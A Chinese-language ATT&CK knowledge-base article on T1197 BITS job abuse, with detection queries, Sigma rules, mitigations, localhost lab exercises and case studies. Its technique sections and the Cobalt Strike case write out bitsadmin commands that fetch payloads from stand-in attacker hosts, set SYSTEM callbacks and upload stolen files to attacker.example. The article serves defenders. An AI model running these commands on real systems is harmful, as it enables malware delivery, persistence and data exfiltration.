

# BITS作业 (T1197)

## 一句话通俗理解

攻击者像在邮局偷偷办了一个"长期快递订阅"——你只看到合法的Windows后台传输服务在干活，实际上它正在悄悄下载恶意代码、回传窃取的数据，还能在任务完成时自动启动恶意程序，几个月都不会被发现。

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 滥用Windows后台智能传输服务（BITS）的COM接口创建异步文件传输任务，用于下载/上传/执行/持久化 |
| 为什么危险？ | BITS是系统合法服务，流量被主机防火墙放行；任务自包含于BITS数据库，无需新建文件或注册表项；任务可存活90天以上，支持完成/出错时回调任意程序 |
| 谁需要关心？ | Windows系统管理员、EDR研发人员、SOC分析师、取证人员 |
| 你的第一步防御 | 启用BITS-Client操作日志审计，监控bitsadmin.exe与Start-BitsTransfer的命令行参数，特别关注SetNotifyCmdLine与AddFile指向非系统目录的行为 |
| 如果只做一件事 | 部署Sigma规则检测`bitsadmin.exe /SetNotifyCmdLine`与`/AddFile`组合，并对svchost.exe -k netsvcs -s BITS派生的非系统子进程建立告警 |

## 难度等级

⭐⭐ 中级（需要一定的Windows系统知识）

BITS作业滥用属于中级隐蔽与持久化技术，原因在于：
- 攻击者需要理解Windows BITS服务的COM接口、bitsadmin命令行工具或PowerShell BITS cmdlet
- 创建一个有效的BITS任务需要熟悉任务状态机（ Queued → Connecting → Transferring → Transferred → Acknowledged ）
- 滥用SetNotifyCmdLine实现持久化需要理解任务回调机制
- 防御方如果了解BITS的合法用途基线，识别异常任务的难度并不算高

## 前置知识检查

**读这个文件需要什么？**

- [ ] Windows BITS服务（Background Intelligent Transfer Service）的工作原理
- [ ] COM（组件对象模型）接口基础与BITS COM API
- [ ] bitsadmin.exe命令行工具语法（/create、/addfile、/setnotifycmdline、/resume、/complete）
- [ ] PowerShell BITS cmdlet（Start-BitsTransfer、Add-BitsFile、Set-BitsTransfer）
- [ ] Windows事件日志体系（BITS-Client/Microsoft-Windows-Bits-Client/Operational）
- [ ] Windows服务与svchost.exe进程组（特别是 -k netsvcs -s BITS）

## 技术描述

BITS作业（T1197）是MITRE ATT&CK框架中**同时属于隐蔽（TA0005）、持久化（TA0003）与执行（TA0002）三个战术**的技术。攻击者滥用Windows后台智能传输服务（BITS）创建异步文件传输任务，借助这一系统合法组件实现代码下载、命令执行、数据渗漏与长期持久化。

**通俗解释：**

想象你每天下班都让小区物业帮你代收快递——物业是合法服务，谁也不会怀疑。BITS就像Windows的"快递代收点"，它的本职工作是利用空闲带宽为Windows Update、MSN Messenger、各类更新程序下载文件。攻击者偷偷在物业那里登记了一个"长期代收服务"：每次有包裹（恶意代码）就帮你收下，收到后还可以按你留下的电话（SetNotifyCmdLine）通知某人（执行任意程序）。因为整个过程是物业以自己的名义做的，保安（防火墙、安全软件）根本不会拦。

**技术原理：**

### 一、BITS服务基础

Windows BITS是一种低带宽、异步文件传输机制，通过COM接口（Component Object Model，参见T1559.001）暴露给应用程序。它的核心设计目标包括：
- **利用空闲带宽**：不与其他网络应用抢带宽，在网络空闲时才传输
- **支持断点续传**：网络中断后自动恢复
- **支持错误重试**：传输失败自动重试
- **任务自包含**：所有任务状态存储在BITS内部数据库（`%ALLUSERSPROFILE%\Microsoft\Network\Downloader\qmgr*.dat`），不依赖额外的文件或注册表项

正是这些"为合法用途设计"的特性，使其成为攻击者理想的滥用对象：**自包含意味着不留常规痕迹，异步意味着不引人注意，系统服务身份意味着被防火墙放行**。

### 二、BITS任务的生命周期

一个BITS任务（Job）的生命周期如下：

```
[创建] → Queued（排队） → Connecting（连接） → Transferring（传输中） 
       → Transferred（传输完成） → Acknowledged（已确认）
                                          ↓
                                    [回调执行]
```

关键状态转换：
- **Transferred → Acknowledged**：调用`Complete()`方法确认任务完成
- **任务失败/取消**：触发错误状态，可配置回调
- **系统重启**：BITS任务在重启后自动恢复继续执行

### 三、攻击者滥用的三种核心能力

#### 1. 文件下载（结合T1105 入口工具传输）

攻击者用BITS从远程服务器下载恶意载荷：

```cmd
bitsadmin /create MaliciousJob
bitsadmin /addfile MaliciousJob http://malicious.example/payload.exe C:\Temp\payload.exe
bitsadmin /resume MaliciousJob
bitsadmin /complete MaliciousJob
```

或使用PowerShell：
```powershell
Start-BitsTransfer -Source "http://malicious.example/payload.exe" -Destination "C:\Temp\payload.exe"
```

#### 2. 代码执行与持久化（SetNotifyCmdLine）

BITS任务支持配置完成或出错时的回调命令，这是攻击者最爱的特性：

```cmd
bitsadmin /create PersistJob
bitsadmin /addfile PersistJob http://malicious.example/beacon.dll C:\Temp\beacon.dll
bitsadmin /setnotifycmdline PersistJob "C:\Windows\System32\rundll32.exe" "C:\Temp\beacon.dll,Start"
bitsadmin /resume PersistJob
```

任务完成或出错时，BITS服务（`svchost.exe -k netsvcs -s BITS`）会以SYSTEM权限启动指定的回调命令，实现：
- **持久化**：BITS任务默认最大生命周期90天，可通过修改注册表延长
- **重启存活**：任务在系统重启后自动恢复，完成后仍触发回调
- **权限继承**：BITS服务以SYSTEM身份运行，回调程序继承SYSTEM权限

#### 3. 数据渗漏（结合T1048 替代协议渗漏）

BITS支持文件上传功能，攻击者可用于数据外传：

```cmd
bitsadmin /create ExfilJob
bitsadmin /addfile ExfilJob C:\Temp\stolen_data.zip http://attacker.example/upload.php
bitsadmin /resume ExfilJob
```

### 四、为什么BITS难以被检测

BITS在防御检测方面有几个"天然优势"：

1. **系统服务身份**：BITS作为Windows系统服务运行，主机防火墙默认放行其流量
2. **进程上下文合法**：BITS服务宿主在`svchost.exe -k netsvcs -s BITS`中，与其他系统服务共享宿主
3. **数据库存储而非文件系统**：任务状态存储在BITS数据库，不创建独立文件、不修改注册表
4. **延迟执行特性**：异步执行不立即触发行为，沙箱和实时检测难以捕获完整链路
5. **合法用途广泛**：Windows Update、SCCM、第三方应用广泛使用，难以一刀切封禁

**用途与影响：**

BITS作业滥用是APT组织和勒索软件团伙的常用技术。它的价值体现在三个层面：**下载分发**（借助合法服务下载恶意载荷）、**持久化执行**（通过SetNotifyCmdLine建立长期回调）、**隐蔽渗漏**（利用BITS上传功能外传数据）。从Cobalt Strike Beacon的分发到Wizard Spider勒索软件的横向投递，BITS滥用已渗透到现代攻击链的各个环节。

## 真实攻击流程

### 典型攻击流程

```
攻击者获得初始访问 --> 通过bitsadmin/PowerShell BITS创建恶意任务 --> 任务以合法系统服务身份下载载荷 --> 配置SetNotifyCmdLine实现完成时回调执行 --> 载荷以SYSTEM权限运行 --> BITS任务长期存活提供持久化
```



**步骤详解：**

1. **获得初始访问**
   - 通俗描述：攻击者通过钓鱼邮件、漏洞利用或第三方应用妥协获得目标系统的初始执行能力
   - 技术细节：典型入口包括Office宏（T1204.002）、漏洞利用（T1203）、有效账户登录（T1078）
   - 常用工具：Cobalt Strike、Empire、自定义加载器

2. **创建BITS任务**
   - 通俗描述：攻击者用bitsadmin或PowerShell BITS cmdlet在目标系统上"开个长期快递订阅"
   - 技术细节：调用`bitsadmin /create`或`New-BitsTransfer`创建任务，再用`/addfile`添加传输文件
   - 常用工具：bitsadmin.exe、PowerShell（Start-BitsTransfer、Add-BitsFile）

3. **配置回调命令（持久化关键）**
   - 通俗描述：告诉BITS"包裹到了就打电话给某个号码（执行某个程序）"
   - 技术细节：调用`bitsadmin /setnotifycmdline <JobName> <Program> [Params]`，BITS在任务完成或出错时调用指定程序，由svchost.exe（BITS服务宿主）派生子进程
   - 常用工具：bitsadmin.exe /setnotifycmdline

4. **BITS服务执行传输**
   - 通俗描述：BITS服务在系统空闲时悄悄下载/上传文件，伪装成正常的Windows更新流量
   - 技术细节：BITS服务以SYSTEM权限运行，宿主在`svchost.exe -k netsvcs -s BITS`，使用HTTP(S)或SMB协议传输
   - 常用工具：系统BITS服务自身

5. **触发回调执行**
   - 通俗描述：文件传完后BITS自动启动攻击者指定的程序，继承SYSTEM权限
   - 技术细节：任务状态变为Transferred或出错时，BITS调用SetNotifyCmdLine指定的程序；程序作为svchost.exe子进程运行，权限通常为SYSTEM
   - 常用工具：rundll32.exe（加载DLL）、cmd.exe、powershell.exe、自定义可执行文件

6. **长期持久化**
   - 通俗描述：BITS任务像个"长期闹钟"，即使系统重启也会继续工作，可存活90天以上
   - 技术细节：BITS任务默认90天最大生命周期（可通过`JobInactivityTimeout`注册表值延长），系统重启后自动恢复；攻击者可创建多个任务形成冗余持久化
   - 常用工具：注册表修改、PowerShell BITS cmdlet

## 子技术概览

**该技术无子技术。**

BITS作业（T1197）在MITRE ATT&CK v19中是一个独立技术，没有子技术分类。这反映了BITS滥用的核心机制相对单一——所有变体都围绕COM接口、bitsadmin命令行或PowerShell cmdlet展开，差异主要体现在使用目的（下载/执行/渗漏/持久化）而非技术分支。

## 检测建议

**用人话说：** BITS作业滥用的检测核心是"建立合法BITS使用基线，识别偏离基线的任务配置"。安全软件平时记录哪些程序在用BITS、下载什么文件、回调命令是什么——一旦发现bitsadmin被非系统进程调用、SetNotifyCmdLine指向非系统目录、BITS服务派生异常子进程，就高度可疑。

### 网络层检测

**检测方法：** 监控出站HTTP(S)流量中BITS特征（User-Agent包含`Microsoft BITS/`）。建立BITS流量的目标域名白名单（主要是Windows Update、SCCM、已知合法更新源）。识别BITS流量去往未知域名或与已知C2基础设施通信的模式。

**关键User-Agent特征：**
- `Microsoft BITS/7.8`（Windows 10/11）
- `Microsoft BITS/7.5`（Windows 7/8）

### 主机层检测

**Windows事件ID（BITS-Client操作日志，路径：`Microsoft-Windows-Bits-Client/Operational`）：**
- Event ID 59：任务创建（核心——记录任务名、所有者、文件列表）
- Event ID 60：任务取消
- Event ID 61：任务出错
- Event ID 70：任务完成
- Event ID 80：任务状态变更

**Sysmon与安全事件：**
- Sysmon Event ID 1：进程创建（**核心**——监控bitsadmin.exe的命令行参数，特别是`/create`、`/addfile`、`/setnotifycmdline`）
- Sysmon Event ID 1：监控`svchost.exe -k netsvcs -s BITS`派生的子进程（持久化回调执行的强信号）
- Sysmon Event ID 3：网络连接（BITS服务发起的出站连接）
- Sysmon Event ID 11：FileCreate（BITS下载文件落盘）
- Sysmon Event ID 7：ImageLoaded（回调程序加载的DLL）

**具体命令示例：**
```powershell
# 检测bitsadmin.exe的SetNotifyCmdLine滥用
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=1} |
    Where-Object { $_.Message -match 'bitsadmin\.exe' -and $_.Message -match 'setnotifycmdline' } |
    Select-Object TimeCreated, Message -First 50

# 列出当前所有BITS任务（含状态、文件、回调命令）
Get-BitsTransfer -AllUsers

# 监控BITS服务派生的子进程（持久化回调执行的强信号）
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'; ID=1} |
    Where-Object { $_.Message -match 'ParentImage:.*svchost\.exe.*-s BITS' } |
    Select-Object TimeCreated, Message -First 30

# 查询BITS-Client操作日志中近期创建的任务
Get-WinEvent -LogName 'Microsoft-Windows-Bits-Client/Operational' -MaxEvents 100 |
    Where-Object { $_.Id -eq 59 } |
    Select-Object TimeCreated, Message

# 检查BITS数据库文件的异常修改时间
Get-ItemProperty "$env:ALLUSERSPROFILE\Microsoft\Network\Downloader\qmgr*.dat" |
    Select-Object Name, LastWriteTime, Length
```

### 应用层检测

**检测要点：**

1. **bitsadmin.exe命令行异常检测**
   - 日志来源：Sysmon Event ID 1
   - 关注字段：CommandLine、ParentImage
   - 异常特征：
     - bitsadmin.exe被非系统进程、非合法更新程序（如Office、浏览器）启动
     - 命令行包含`/setnotifycmdline`（持久化回调）
     - 命令行包含`/addfile`且URL为非系统更新域名
     - 命令行包含`/transfer`（一键下载并执行模式）

2. **BITS服务派生子进程检测**
   - 日志来源：Sysmon Event ID 1
   - 关注字段：ParentImage、ParentCommandLine、Image
   - 异常特征：
     - 父进程为`svchost.exe -k netsvcs -s BITS`但子进程非系统更新组件
     - 子进程为rundll32.exe、cmd.exe、powershell.exe（典型回调执行载荷）
     - 子进程命令行参数指向用户目录或临时目录

3. **PowerShell BITS cmdlet滥用检测**
   - 日志来源：PowerShell Script Block Logging（Event ID 4104）
   - 关注字段：ScriptBlockText
   - 异常特征：
     - 脚本中包含`Start-BitsTransfer`、`Add-BitsFile`、`Set-BitsTransfer`
     - cmdlet参数包含非系统更新源的URL
     - 配合`Invoke-Expression`或`Start-Process`实现下载即执行

4. **BITS任务数据库完整性监控**
   - 日志来源：文件完整性监控（FIM）
   - 关注文件：`%ALLUSERSPROFILE%\Microsoft\Network\Downloader\qmgr0.dat`、`qmgr1.dat`
   - 异常特征：数据库文件在非Windows更新时间被修改

## 检测规则示例

### Sigma规则：检测bitsadmin.exe SetNotifyCmdLine滥用

```yaml
title: BITS作业SetNotifyCmdLine持久化滥用检测
id: 1f2a3b4c-5d6e-7f80-9192-a3b4c5d6e7f8
status: experimental
description: 检测bitsadmin.exe配置SetNotifyCmdLine参数实现BITS任务回调执行，可能表明T1197 BITS作业持久化滥用
references:
    - https://attack.mitre.org/techniques/T1197/
    - https://www.secureworks.com/blog/malware-lingers-with-bits
author: ATT&CK知识库
date: 2026/07/24
logsource:
    product: windows
    service: sysmon
detection:
    selection_bitsadmin:
        EventID: 1
        Image|endswith: '\bitsadmin.exe'
        CommandLine|contains:
            - '/setnotifycmdline'
            - '-setnotifycmdline'
    filter_legitimate:
        CommandLine|contains:
            - 'WindowsUpdate'
            - 'Microsoft Update'
    condition: selection_bitsadmin and not filter_legitimate
falsepositives:
    - 合法的第三方软件更新程序（需建立基线白名单）
    - 企业SCCM/Intune分发任务（需确认配置）
    - 开发与运维自动化脚本（需评审）
level: high
tags:
    - attack.t1197
    - attack.stealth
    - attack.persistence
    - attack.execution
    - attack.defense_evasion
```

### Sigma规则：检测BITS服务派生异常子进程

```yaml
title: BITS服务派生可疑子进程检测
id: 2b3c4d5e-6f70-8192-a3b4-c5d6e7f80919
status: experimental
description: 检测BITS服务宿主进程svchost.exe -k netsvcs -s BITS派生非系统更新子进程，可能表明T1197 SetNotifyCmdLine回调执行
references:
    - https://attack.mitre.org/techniques/T1197/
    - https://researchcenter.paloaltonetworks.com/2017/11/unit42-uboatrat-navigates-east-asia/
author: ATT&CK知识库
date: 2026/07/24
logsource:
    product: windows
    service: sysmon
detection:
    selection_parent:
        EventID: 1
        ParentCommandLine|contains:
            - 'svchost.exe -k netsvcs -s BITS'
            - 'svchost.exe -k netsvcs.*-s BITS'
    filter_system_children:
        Image|startswith:
            - 'C:\Windows\System32\'
            - 'C:\Windows\SysWOW64\'
    filter_trusted_updaters:
        Image|contains:
            - 'WindowsUpdate\'
            - 'SoftwareDistribution\'
            - 'SCCM\'
    condition: selection_parent and not filter_system_children and not filter_trusted_updaters
falsepositives:
    - 合法的第三方应用更新程序（需建立基线白名单）
    - Windows Store应用更新
    - 企业补丁管理系统（WSUS、SCCM、Intune）
level: high
tags:
    - attack.t1197
    - attack.stealth
    - attack.persistence
    - attack.execution
```

### Sigma规则：检测PowerShell BITS cmdlet下载可疑文件

```yaml
title: PowerShell BITS传输可疑文件下载检测
id: 3c4d5e6f-7081-92a3-b4c5-d6e7f8091920
status: experimental
description: 检测使用Start-BitsTransfer或Add-BitsFile从非系统更新源下载文件，可能表明T1197 BITS作业滥用
references:
    - https://attack.mitre.org/techniques/T1197/
    - https://attack.mitre.org/techniques/T1105/
author: ATT&CK知识库
date: 2026/07/24
logsource:
    product: windows
    service: powershell
detection:
    selection_cmdlet:
        EventID: 4104
        ScriptBlockText|contains:
            - 'Start-BitsTransfer'
            - 'Add-BitsFile'
            - 'Set-BitsTransfer'
            - 'Complete-BitsTransfer'
    selection_suspicious_source:
        ScriptBlockText|contains:
            - 'http://'
            - 'https://'
            - 'ftp://'
    filter_legitimate_sources:
        ScriptBlockText|contains:
            - 'windowsupdate.microsoft.com'
            - 'update.microsoft.com'
            - 'download.windowsupdate.com'
            - 'officecdn.microsoft.com'
    condition: selection_cmdlet and selection_suspicious_source and not filter_legitimate_sources
falsepositives:
    - 合法的第三方软件分发脚本（需建立基线白名单）
    - 企业内部软件仓库下载
    - 开发者拉取依赖包
level: medium
tags:
    - attack.t1197
    - attack.t1105
    - attack.stealth
    - attack.execution
```

## 缓解措施

### 优先级1：关键措施

**措施名称：** 监控并限制BITS任务的回调命令配置

**具体实施步骤：**
1. 部署Sigma规则实时告警`bitsadmin.exe /setnotifycmdline`与`Set-BitsTransfer -NotifyCmdLine`调用
2. 对`svchost.exe -k netsvcs -s BITS`派生的非系统子进程建立强制告警
3. 通过应用控制（WDAC/AppLocker）限制BITS服务可执行的回调程序路径，仅允许系统目录与受信任的更新程序目录

### 优先级2：重要措施

**措施名称：** 缩短BITS任务默认生命周期并限制访问

**具体实施步骤：**
1. 通过组策略或注册表缩短BITS任务默认最大生命周期：
   - 编辑`HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\BITS`
   - 设置`JobInactivityTimeout`为较短值（如7天，默认90天）
   - 设置`MaxDownloadTime`限制单任务最大下载时间
2. 限制BITS接口访问权限，仅允许特定用户组（如SYSTEM、管理员、Windows Update服务账户）创建BITS任务
3. 配置Windows防火墙规则，仅允许BITS流量去往已知合法的更新源域名

### 优先级3：建议措施

**措施名称：** 网络流量过滤与BITS流量基线建立

**具体实施步骤：**
1. 在网络边界部署流量过滤规则，识别BITS User-Agent（`Microsoft BITS/x.x`）并限制其目标域名
2. 建立组织内BITS流量的合法基线（目标域名、传输文件类型、流量时间分布）
3. 部署EDR规则监控BITS数据库文件（`qmgr*.dat`）的非预期修改
4. 定期审计系统上的BITS任务列表：`Get-BitsTransfer -AllUsers` 或 `bitsadmin /list /allusers`

### MITRE ATT&CK 缓解措施映射

| 缓解措施ID | 缓解措施名称 | 适用性 | 说明 |
|------------|-------------|--------|------|
| M1037 | 过滤网络流量 | 适用 | 修改网络与主机防火墙规则，仅允许合法BITS流量 |
| M1028 | 操作系统配置 | 适用 | 缩短BITS任务默认生命周期（JobInactivityTimeout、MaxDownloadTime注册表值） |
| M1018 | 用户账户管理 | 适用 | 限制BITS接口访问权限至特定用户或组 |

## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的实验室环境中进行，禁止对未授权的真实系统进行测试。

### 实验环境准备

**所需工具：**
- Windows 10/11虚拟机（启用Sysmon与BITS-Client操作日志）
- PowerShell（默认随Windows提供）
- bitsadmin.exe（默认随Windows提供）
- 一个测试用的HTTP服务器（如Python `python -m http.server 8000`）
- Sysinternals Process Monitor（可选，用于深度分析）

### 实验1：BITS基础下载（初级）

**实验目标：** 理解T1197 BITS作业下载机制，观察BITS任务的创建与执行

**实验步骤：**
1. 在另一台机器或本机起一个HTTP服务器：
   ```powershell
   # 在测试目录放置一个测试文件test.txt
   Set-Content -Path C:\TestServer\test.txt -Value "BITS Test Payload"
   python -m http.server 8000 --directory C:\TestServer
   ```
2. 使用bitsadmin创建下载任务：
   ```cmd
   bitsadmin /create TestDownloadJob
   bitsadmin /addfile TestDownloadJob http://127.0.0.1:8000/test.txt C:\Temp\downloaded_test.txt
   bitsadmin /resume TestDownloadJob
   ```
3. 监控任务状态：
   ```cmd
   bitsadmin /info TestDownloadJob /verbose
   bitsadmin /monitor
   ```
4. 任务完成后确认文件下载：
   ```cmd
   bitsadmin /complete TestDownloadJob
   type C:\Temp\downloaded_test.txt
   ```
5. 检查Sysmon Event ID 1日志，确认bitsadmin.exe调用被记录
6. 检查BITS-Client操作日志（Event ID 59/70），确认任务创建与完成事件

**预期结果：** test.txt成功下载到C:\Temp\，Sysmon记录bitsadmin.exe命令行，BITS-Client日志记录任务生命周期事件

**学习要点：** 理解BITS任务的生命周期（创建→排队→传输→完成→确认），掌握检测BITS任务的日志来源

### 实验2：SetNotifyCmdLine持久化（中级）

**实验目标：** 理解T1197通过SetNotifyCmdLine实现持久化的机制，观察回调执行

**实验步骤：**
1. 准备一个"载荷"程序（例如简单的批处理弹出消息）：
   ```cmd
   echo msgbox "BITS Persistence Triggered!" > C:\Temp\trigger.vbs
   ```
2. 创建带回调的BITS任务：
   ```cmd
   bitsadmin /create PersistTestJob
   bitsadmin /addfile PersistTestJob http://127.0.0.1:8000/test.txt C:\Temp\persist_test.txt
   bitsadmin /setnotifycmdline PersistTestJob "C:\Windows\System32\wscript.exe" "C:\Temp\trigger.vbs"
   bitsadmin /resume PersistTestJob
   ```
3. 等待任务完成（或使用`bitsadmin /info PersistTestJob /verbose`查看状态）
4. 任务完成后，wscript.exe将自动执行trigger.vbs，弹出消息框
5. 检查Sysmon日志，确认：
   - bitsadmin.exe的`/setnotifycmdline`命令行被记录
   - 父进程为`svchost.exe -k netsvcs -s BITS`的wscript.exe子进程被记录
6. 模拟系统重启，观察BITS任务是否自动恢复并重新触发回调
7. 清理：`bitsadmin /cancel PersistTestJob`，删除测试文件

**预期结果：** 任务完成后wscript.exe自动执行弹出消息框；Sysmon日志清晰显示bitsadmin命令行与BITS服务派生子进程的父子关系

**学习要点：** 理解SetNotifyCmdLine的持久化机制；掌握"svchost.exe -k netsvcs -s BITS派生子进程"这一关键检测信号

### 实验3：PowerShell BITS cmdlet滥用（中级）

**实验目标：** 理解通过PowerShell BITS cmdlet实现T1197的方式，对比与bitsadmin的差异

**实验步骤：**
1. 使用Start-BitsTransfer一键下载：
   ```powershell
   Start-BitsTransfer -Source "http://127.0.0.1:8000/test.txt" -Destination "C:\Temp\ps_download.txt"
   ```
2. 使用cmdlet创建带状态管理的任务：
   ```powershell
   $job = Start-BitsTransfer -Source "http://127.0.0.1:8000/test.txt" -Destination "C:\Temp\ps_managed.txt" -Asynchronous
   Resume-BitsTransfer -BitsJob $job
   Complete-BitsTransfer -BitsJob $job
   ```
3. 检查PowerShell Script Block Logging（Event ID 4104），确认cmdlet调用被记录
4. 对比Sysmon日志：PowerShell BITS cmdlet在底层仍调用BITS COM接口，但不会启动bitsadmin.exe进程
5. 清理测试文件

**预期结果：** 文件成功下载；PowerShell Script Block Logging记录cmdlet调用；Sysmon日志显示PowerShell进程通过COM与BITS服务交互而非启动bitsadmin.exe

**学习要点：** 理解BITS滥用的两种实现路径（bitsadmin命令行 vs PowerShell cmdlet vs 直接COM调用）；掌握针对不同实现路径的检测策略

## 真实攻击场景

### 场景1：APT41利用BITSAdmin分发恶意载荷（2020）

- **时间**：2020年3月
- **目标**：全球多家企业，利用Citrix、Cisco、Zoho等漏洞进行初始访问
- **攻击组织**：APT41（Wicked Panda、Barium）
- **手法**：APT41在获得初始访问后，使用`bitsadmin.exe /transfer`命令一键下载并执行Cobalt Strike Beacon等后门载荷。BITS流量伪装成Windows更新流量，绕过基于网络特征的传统IDS。攻击者还通过BITS下载额外的横向移动工具（如Mimikatz、ProcDump），整个下载链路均通过BITS服务完成，主机层仅看到合法的BITS活动。
- **影响**：全球多家企业被入侵，包括电信、游戏、医疗等行业
- **参考链接**：[MITRE - APT41](https://attack.mitre.org/groups/G0096/)、[FireEye - APT41 Global Intrusion Campaign](https://www.fireeye.com/blog/threat-research/2020/03/apt41-initiates-global-intrusion-campaign-using-multiple-exploits.html)

### 场景2：UBoatRAT利用SetNotifyCmdLine建立长期持久化（2017）

- **时间**：2017年
- **目标**：东亚地区政府、教育、研究机构
- **攻击组织**：UBoatRAT运营者
- **手法**：UBoatRAT滥用BITS的`/setnotifycmdline`选项实现持久化。RAT创建一个BITS任务，配置任务完成或出错时自动重新启动自身。即使系统重启或RAT进程被杀，BITS服务会自动恢复任务并触发回调，使RAT"死而复生"。BITS任务默认90天生命周期，攻击者借此实现长期潜伏。Palo Alto Unit 42的分析报告指出，这种持久化机制使UBoatRAT非常难以彻底清除。
- **影响**：东亚地区多机构被长期监控，部分目标潜伏时间超过6个月
- **参考链接**：[MITRE - UBoatRAT](https://attack.mitre.org/software/S0333/)、[Palo Alto Unit 42 - UBoatRAT Navigates East Asia](https://researchcenter.paloaltonetworks.com/2017/11/unit42-uboatrat-navigates-east-asia/)

### 场景3：Wizard Spider使用BITSAdmin分发勒索软件（2020-2021）

- **时间**：2020-2021年
- **目标**：全球医疗机构、关键基础设施
- **攻击组织**：Wizard Spider（FIN12关联组织）
- **手法**：Wizard Spider在横向移动阶段使用批处理脚本结合WMIC远程执行bitsadmin命令，将Ryuk、Conti等勒索软件载荷批量推送到每台被控机器。脚本调用`bitsadmin.exe /transfer`命令从攻击者控制的Web服务器下载勒索软件可执行文件，下载完成后立即通过`Start-Process`或`cmd /c`执行。BITS的异步特性使攻击者能在不占用大量带宽的情况下同时向数百台机器分发载荷。
- **影响**：多家医院运营中断，部分患者因系统瘫痪影响治疗，估计损失超过数亿美元
- **参考链接**：[MITRE - Wizard Spider](https://attack.mitre.org/groups/G0102/)、[Mandiant - FIN12 Group Profile](https://www.mandiant.com/sites/default/files/2021-10/fin12-group-profile.pdf)

### 场景4：APT39利用BITS协议外传窃取数据（2020）

- **时间**：2020年
- **目标**：中东地区航空、政府、电信、旅游行业
- **攻击组织**：APT39（Chafer、Cadelspy、Remexi、ITG07）
- **手法**：APT39创新性地使用BITS协议的**上传**功能进行数据渗漏。攻击者将窃取的文档打包压缩后，通过`bitsadmin /addfile`配置上传任务，将文件上传至攻击者控制的HTTP服务器。BITS上传流量伪装成合法的Windows更新通信，绕过DLP（数据防泄漏）系统的出站检测。FBI的IOC报告指出，APT39在长达数年的间谍活动中持续使用这一手法外传敏感数据。
- **影响**：中东地区多个行业敏感数据被长期窃取，部分目标监控时间超过3年
- **参考链接**：[MITRE - APT39](https://attack.mitre.org/groups/G0087/)、[FBI - IOCs Associated with Rana Intelligence Computing](https://www.iranwatch.org/sites/default/files/public-intelligence-alert.pdf)

### 场景5：Cobalt Strike BITS下载Beacon（红队标配）

- **时间**：持续至今
- **目标**：红队演练目标、APT组织真实攻击
- **攻击组织**：多个APT组织与红队
- **手法**：Cobalt Strike框架内置的"Scripted Web Delivery"功能支持通过bitsadmin.exe下载并执行Beacon payload。典型命令为`bitsadmin /transfer d http://attacker/beacon.exe C:\Temp\beacon.exe & start C:\Temp\beacon.exe`。由于BITS流量被防火墙放行且命令简洁，这成为最简单的Beacon分发方式之一。许多APT组织也借鉴这一手法，在自定义恶意软件中调用bitsadmin实现载荷分发。
- **影响**：成为红队与APT的"教科书级"手法，被广泛复制
- **参考链接**：[MITRE - Cobalt Strike](https://attack.mitre.org/software/S0154/)、[Cobalt Strike - Scripted Web Delivery](https://www.cobaltstrike.com/help-scripted-web-delivery)

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| BITS | Background Intelligent Transfer Service | Windows后台智能传输服务，利用空闲带宽进行异步文件传输 |
| BITS作业 | BITS Job | BITS中的一个文件传输任务，包含一个或多个文件操作队列 |
| BITSAdmin | BITSAdmin | Windows命令行工具，用于创建和管理BITS作业 |
| SetNotifyCmdLine | Set Notification Command Line | BITS任务配置项，指定任务完成或出错时执行的回调程序 |
| COM | Component Object Model | 微软组件对象模型，BITS通过COM接口暴露功能 |
| JobInactivityTimeout | Job Inactivity Timeout | BITS任务最大不活动超时时间（默认90天），可通过注册表调整 |
| MaxDownloadTime | Max Download Time | BITS单任务最大下载时间限制 |
| svchost.exe -k netsvcs -s BITS | svchost.exe -k netsvcs -s BITS | BITS服务的宿主进程命令行，是检测BITS回调执行的关键父进程特征 |
| Start-BitsTransfer | Start-BitsTransfer | PowerShell cmdlet，用于创建BITS传输任务 |
| qmgr.dat | Queue Manager Data File | BITS任务数据库文件，存储所有任务状态 |

## 参考资料

### 📚 官方文档（深入了解）

- [MITRE ATT&CK - T1197 BITS Jobs](https://attack.mitre.org/techniques/T1197/)
- [MITRE ATT&CK - TA0005 Stealth](https://attack.mitre.org/tactics/TA0005/)
- [MITRE ATT&CK - TA0003 Persistence](https://attack.mitre.org/tactics/TA0003/)
- [MITRE ATT&CK - TA0002 Execution](https://attack.mitre.org/tactics/TA0002/)
- [Microsoft Learn - Background Intelligent Transfer Service](https://msdn.microsoft.com/library/windows/desktop/bb968799.aspx)
- [Microsoft Learn - BITSAdmin Tool](https://msdn.microsoft.com/library/aa362813.aspx)
